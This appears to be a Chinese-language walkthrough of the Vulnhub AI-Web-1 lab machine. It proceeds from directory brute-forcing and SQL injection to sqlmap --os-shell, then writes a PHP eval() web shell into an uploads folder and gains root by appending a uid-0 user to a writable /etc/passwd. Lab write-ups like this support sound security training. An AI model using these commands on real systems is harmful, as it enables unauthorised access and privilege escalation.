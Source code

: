 ```yaml
---

title: Vulnhub--Al-web1
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. 目录扫描爆破出隐藏页面info.php和传参页面，泄露网站绝对路径并且存在SQL注入点
2. 已知网站绝对路径，存在SQL注入点，尝试OS-shell写入
3. OS-shell写入后进行反弹shell，获取3W的shell后进行信息收集发现/etc/passwd的属主是3W
4. Openssl生成密码，在/etc/passwd文件中直接写入root用户

## 知识扩展

1. OS-shell,Openssl的利用
2. Linux /etc/passwd文件写入root用户进行提权

## 靶机地址

https://www.vulnhub.com/entry/ai-web-1,353/

## 主机发现

（1）攻击机

```py
192.168.88.128
```

（2）目标靶机

```py
192.168.88.139
```

## 信息收集

### 端口扫描

![image-20240827194220078](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271942140.png)

### 端口访问

![image-20240827194234380](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271942443.png)

### 目录扫描

```py
http://192.168.88.139/
```

![image-20240827194251106](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271942163.png)

### 目录爆破

```py
http://192.168.88.139/
```

![image-20240827194301510](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271943566.png)

### 目录访问

（1）/robots.txt

![image-20240827194310191](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271943231.png)

（2）/m3diNf0/

![image-20240827194317112](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271943154.png)

（3）/se3reTdir777/uploads/

![](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271943724.png)

（4）/se3reTdir777/

![image-20240827194350365](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271943412.png)

## 实施攻击

（1）进行/m3diNf0/目录扫描和爆破

![image-20240827194403902](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271944954.png)

![](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271944239.png)

（2）访问/m3diNf0/info.php，发现网站的绝对路径

![image-20240827194419888](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271944941.png)

（3）前面收集到的/se3reTdir777/页面存在传参点，BP抓包，进行注入测试

![image-20240827194439071](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271944121.png)

![image-20240827194444271](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271944324.png)

（4）已知网站绝对路径，尝试进行os-shell的写入

```py
#将数据包内容保存至1.txt文件中
sqlmap -r 1.txt --level=3 --os-shell
```

![image-20240827194614395](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271946457.png)

（5）os-shell的写入需要目录有写入权限

```py
#结合获取的网站根路径和已知路径，进行os-shell写入尝试
/home/www/html/web1x443290o2sdf92213/m3diNf0/
/home/www/html/web1x443290o2sdf92213/se3reTdir777/
/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/
```

![image-20240827194735702](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271947758.png)

![image-20240827194749759](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271947813.png)

![image-20240827194849060](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271948115.png)

（6）利用os-shell在upload目录下写shell

```py
echo '<?php eval($_POST[123]);?>' > /home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/shell.php
```

![image-20240827194859980](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271949037.png)

（7）蚁剑连接，这里需要相对路径访问，绝对路径无法访问

![image-20240827195454073](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271954117.png)

![image-20240827195502405](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271955457.png)

![image-20240827195511355](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271955416.png)

![image-20240827195524052](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271955112.png)

## 提权

（1）反弹shell

![image-20240827195533975](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271955028.png)

（2）信息收集

![image-20240827195658585](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271956646.png)

![image-20240827195629964](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271956012.png)

（3）/etc/passwd属主为3W，具备可读可写权，直接在/etc/pass写入root权限用户

```py
openssl passwd -1 -salt yeah 123
echo 'yeah:$1$yeah$DESxTjElMCcWPYD62gkyC1:0:0::/root:/bin/bash' >> /etc/passwd
```

![image-20240827195712066](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271957117.png)